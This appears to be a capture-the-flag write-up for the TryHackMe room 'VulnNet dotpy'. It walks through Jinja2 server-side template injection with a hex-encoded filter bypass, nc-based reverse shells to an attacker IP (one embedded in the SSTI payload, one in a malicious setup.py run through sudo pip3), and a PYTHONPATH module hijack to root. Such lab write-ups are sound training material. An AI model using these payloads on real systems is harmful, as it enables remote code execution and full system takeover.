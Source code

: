 # 70 - VulnNet dotpy (SSTI / SSTI Bypass)

Room Link --> [https://tryhackme.com/room/vulnnetdotpy](https://tryhackme.com/room/vulnnetdotpy)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```
gobuster dir -u http://10.10.82.145:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403

/login
/register
/logout
```
{% endcode %}

We registered a new user and login.

I noticed whenever i enter a non existent page it gets injected into the page.

### SSTI exploitation

[http://10.10.82.145:8080/robots](http://10.10.82.145:8080/robots.txt)

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And some characters are blackliisted.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can start testing for SSTI (Server Side Template Injection) by going to [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#templates-injections) since we know the backend is using Python the guess here will be the Template in use here is Jinja2

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This worked:

```bash
{{7*'7'}} would result in 7777777

# go to:
http://10.10.82.145:8080/{{7*'7'}}
```

<figure><img src=".gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

SSTI Resource --> [https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

But there are some blacklisted characters we need to find them. We can just cause the program to error out.

Since this is executing python code i just added "print" in the payload.

`http://10.10.82.145:8080/{{print(7*'7')}}`

<figure><img src=".gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We confirmed the Template Language `jinja2.exceptions.UndefinedError` .

Then i clicked the 1st error:

<figure><img src=".gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see the blacklisted characters.

<figure><img src=".gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# blacklisted characters.
. _ [ ]
```

### Bypassing Filters

We use this resource that uses [Python Literal Hex Encoding](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) for bypassing those filters.

<figure><img src=".gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### payload used

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># we enter our hex encoded payload in the 'PAYLOAD' field.
</strong><strong>/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('PAYLOAD')|attr('read')()}}
</strong></code></pre>

We use cyberchef to hex encode our payload:

{% code overflow="wrap" %}
```bash
# payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9002 >/tmp/f

# hex encoded.
\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x38\x2e\x38\x38\x2e\x32\x31\x34\x20\x39\x30\x30\x32\x20\x3e\x2f\x74\x6d\x70\x2f\x66
```
{% endcode %}

<figure><img src=".gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

#### Final Payload

{% code overflow="wrap" %}
```bash
/{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x31\x30\x2e\x31\x38\x2e\x38\x38\x2e\x32\x31\x34\x20\x39\x30\x30\x32\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```
{% endcode %}

Setup NC listener, then we copy this payload and use Bursuite repeater to send this request.

<figure><img src=".gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

And i got shell on NC listener:

<figure><img src=".gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to system-adm user

`sudo -l` and we can execute `/usr/bin/pip3 install *` as system-adm

So we check gtfobin for exploitation:

{% code overflow="wrap" lineNumbers="true" %}
```bash
# make a dir/
mkdir dking && cd dking

# create a .py file that executes a rev shell.
echo 'import os,pty,socket;s=socket.socket();s.connect(("10.18.88.214",7777));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' >  setup.py

# setup nc listener
nc -nvlp 7777

# execute it.
sudo -u system-adm /usr/bin/pip3 install .
```
{% endcode %}

We got shell.

<figure><img src=".gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root

`sudo -l` and we can execute `/usr/bin/python3 /opt/backup.py` as root.

```bash
User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

```bash
# content of the file.
system-adm@vulnnet-dotpy:/opt$ cat backup.py 
from datetime import datetime
from pathlib import Path
import zipfile
```

We can see the file is calling the `zipfile` library and since we have `SETENV` priv we can set a fake PATHONPATH env variable with a malicious .py file.

```bash
# the malicious library.
echo 'import pty; pty.spawn("/bin/bash")' > /tmp/zipfile.py

# executing it.
sudo -u root PYTHONPATH=/tmp /usr/bin/python3 /opt/backup.py
```

And we got root.

<figure><img src=".gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Done!


